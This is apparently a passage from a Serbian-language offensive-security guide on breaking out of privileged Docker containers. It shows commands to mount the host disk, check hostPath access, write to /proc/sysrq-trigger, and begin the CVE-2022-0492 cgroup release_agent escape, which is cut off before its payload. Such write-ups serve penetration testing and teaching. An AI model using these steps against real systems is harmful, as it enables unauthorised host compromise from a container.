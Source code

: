 ```bash
mkdir -p /mnt/hola
mount /dev/sda1 /mnt/hola
```

I eto! Sada možete pristupiti fajl sistemu domaćina jer je montiran u fascikli `/mnt/hola`.

#### Montiranje diska - Poc2

Unutar kontejnera, napadač može pokušati da dobije dalji pristup osnovnom host OS putem hostPath zapisa koji je kreiran od strane klastera. U nastavku su neke uobičajene stvari koje možete proveriti unutar kontejnera da biste videli da li možete iskoristiti ovaj vektor napadača:

```bash
### Check if You Can Write to a File-system
echo 1 > /proc/sysrq-trigger

### Check root UUID
cat /proc/cmdline
BOOT_IMAGE=/boot/vmlinuz-4.4.0-197-generic root=UUID=b2e62f4f-d338-470e-9ae7-4fc0e014858c ro console=tty1 console=ttyS0 earlyprintk=ttyS0 rootdelay=300

# Check Underlying Host Filesystem
findfs UUID=<UUID Value>
/dev/sda1

# Attempt to Mount the Host's Filesystem
mkdir /mnt-test
mount /dev/sda1 /mnt-test
mount: /mnt: permission denied. ---> Failed! but if not, you may have access to the underlying host OS file-system now.

### debugfs (Interactive File System Debugger)
debugfs /dev/sda1
```

#### Privilegovano bežanje zloupotrebom postojećeg release\_agent ([cve-2022-0492](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/)) - PoC1

{% code title="Početni PoC" %}
```
```
{% endcode %}

```bash
# spawn a new container to exploit via:
# docker run --rm -it --privileged ubuntu bash

# Finds + enables a cgroup release_agent
# Looks for something like: /sys/fs/cgroup/*/release_agent
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
# If "d" is empty, this won't work, you need to use the next PoC

# Enables notify_on_release in the cgroup
mkdir -p $d/w;
echo 1 >$d/w/notify_on_release
# If you have a "Read-only file system" error, you need to use the next PoC

# Finds path of OverlayFS mount for container
# Unless the configuration explicitly exposes the mount point of the host filesystem
# see https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html
t=`sed -n 's/overlay \/ .*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

# Sets release_agent to /path/payload
touch /o; echo $t/c > $d/release_agent

```